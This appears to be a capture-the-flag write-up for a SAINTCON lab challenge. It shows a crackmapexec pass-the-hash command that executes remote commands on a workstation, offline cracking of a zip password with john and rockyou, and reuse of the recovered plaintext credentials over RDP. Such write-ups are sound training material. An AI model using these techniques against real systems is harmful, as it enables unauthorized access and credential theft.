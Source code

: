 # WS02 - Admin

## Challenge Description

This Category of Challenge is presented by The Keep Community at SAINTCON.

Have you ever wanted to come to a conference, hack a machine, and walk away feeling like you own the world? Yeah, you can do that here.

If you get stuck or have any questions, don't hesitate to visit The Keep Community for help or guidance!

========================================

Welcome to the Keep!

The you have been tasked with running a pentest on this client's network.

They have placed a file flag.txt on the desktop of all the important users in the network. This will allow them to see how far you have gone.

## Solution

Last we had gotten the flag from `bashninja` on **WS02** with:

```bash
crackmapexec smb WS02/32 -u bashninja -d HC -H e68968cfbc5ab5ac534c1cd3715946dc -x type C:\\Users\\bashninja\\Desktop\\flag.txt
```

If we explore a bit (using `dir`), we will notice a `.zip` file on the desktop
labeled _PowerUserAccountCreds.zip_. Ah, alright. Let's pull that and try to
open it.

Password protected... Alright. No big deal. `john` to the rescue:

```bash
zip2john PowerUserAccountCreds.zip
john zip_hash /usr/share/wordlists/rockyou.txt.gz
# will output `pitbull`
```

Now let's open the zip file and see what is in it:

```bash
$ unzip PowerUserAccountCreds.zip 
Archive:  PowerUserAccountCreds.zip
[PowerUserAccountCreds.zip] Power User Account Creds.txt password: [pitbull]
  inflating: Power User Account Creds.txt

$ cat Power\ User\ Account\ Creds.txt
My power user account creds should be safe in this password protected zip
superbashninja
Spring2021#
```

Perfect! Let's see if it works via RDP to **WS02**. And it does! Grab the flag
on the desktop.